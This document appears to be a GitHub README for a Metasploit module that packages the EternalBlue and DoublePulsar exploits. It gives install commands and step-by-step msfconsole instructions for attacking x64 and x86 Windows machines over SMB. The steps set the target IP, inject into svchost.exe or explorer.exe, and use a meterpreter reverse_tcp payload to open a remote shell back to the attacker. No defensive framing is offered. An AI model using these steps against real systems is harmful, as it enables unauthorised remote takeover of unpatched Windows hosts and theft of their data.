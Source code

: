 # Eternalblue-Doublepulsar-Metasploit

# How to Install

- dpkg --add-architecture i386 && apt-get update -y && apt-get install wine32 -y
- git clone https://github.com/grglzrv/Eternalblue-Doublepulsar-Metasploit.git
- cd Eternalblue-Doublepulsar-Metasploit
- cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb
* Note: Also copy 'deps' directory to /usr/share/metasploit-framework/modules/exploits/windows/smb
- mkdir -p /root/.wine/drive_c/

# How to use

- service postgresql start
- service postgresql enable
- msfconsole
- reload_all 
- use exploit/windows/smb/eternalblue_doublepulsar
- show options

 * For Windows x64
 
-  RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT svchost.exe
 - set TARGETARCHITECTURE x64
 - set payload windows/x64/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 * For Windows x86
 
 - set RHOST (Target IP)
 - set PROCESSINJECT svchost.exe or et PROCESSINJECT explorer.exe
 - set TARGETARCHITECTURE x86
 - set payload windows/meterpreter/reverse_tcp
 - set LHOST (Local IP, check it with 'ip a')
 - show targets
 - set target 8
 - run or exploit
 
 # Have a Fun! :)
